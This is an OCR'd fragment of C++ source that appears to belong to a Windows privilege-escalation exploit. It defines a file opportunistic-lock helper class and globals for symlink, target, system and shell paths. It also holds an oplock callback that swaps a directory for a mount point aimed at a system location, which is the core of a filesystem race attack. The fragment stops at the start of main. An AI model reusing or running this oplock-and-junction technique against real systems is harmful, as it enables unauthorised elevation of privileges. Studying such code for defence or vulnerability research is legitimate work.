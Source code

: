 ```c++
public:
	typedef void(*UserCallback)();

	static FileOpLock* CreateLock(const std::wstring& name, const std::wstring& share_mode, FileOpLock::UserCallback cb);
	void WaitForLock(UINT Timeout);

	~FileOpLock();
private:

	HANDLE g_hFile;
	OVERLAPPED g_o;
	REQUEST_OPLOCK_INPUT_BUFFER g_inputBuffer;
	REQUEST_OPLOCK_OUTPUT_BUFFER g_outputBuffer;
	HANDLE g_hLockCompleted;
	PTP_WAIT g_wait;
	UserCallback _cb;

	FileOpLock(UserCallback cb);

	static void CALLBACK WaitCallback(PTP_CALLBACK_INSTANCE Instance,
		PVOID Parameter, PTP_WAIT Wait,
		TP_WAIT_RESULT WaitResult);

	void DoWaitCallback();

	bool BeginLock(const std::wstring& name, DWORD dwShareMode, bool exclusive);

};

static FileOpLock* oplock = nullptr;


LPCWSTR lock;
LPCWSTR symlink;
LPCWSTR target;
LPCWSTR sys;
LPCWSTR shell;
LPCWSTR tmp;

void HandleOplock()
{
	DebugPrintf("OpLock triggered, hit ENTER to close oplock\n");
	getc(stdin);

	printf("[+] Change symlink\n");
	if (CreateDirectory(symlink, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
	{
		if (!ReparsePoint::CreateMountPoint(symlink, sys, L""))
		{
			printf("Error creating mount point - %d\n", GetLastError());
			exit(-1);
		}
	}
	else
	{
		printf("nofuck Error creating directory - %d\n", GetLastError());
	}
}


int _tmain(int argc, _TCHAR* argv[])
{
```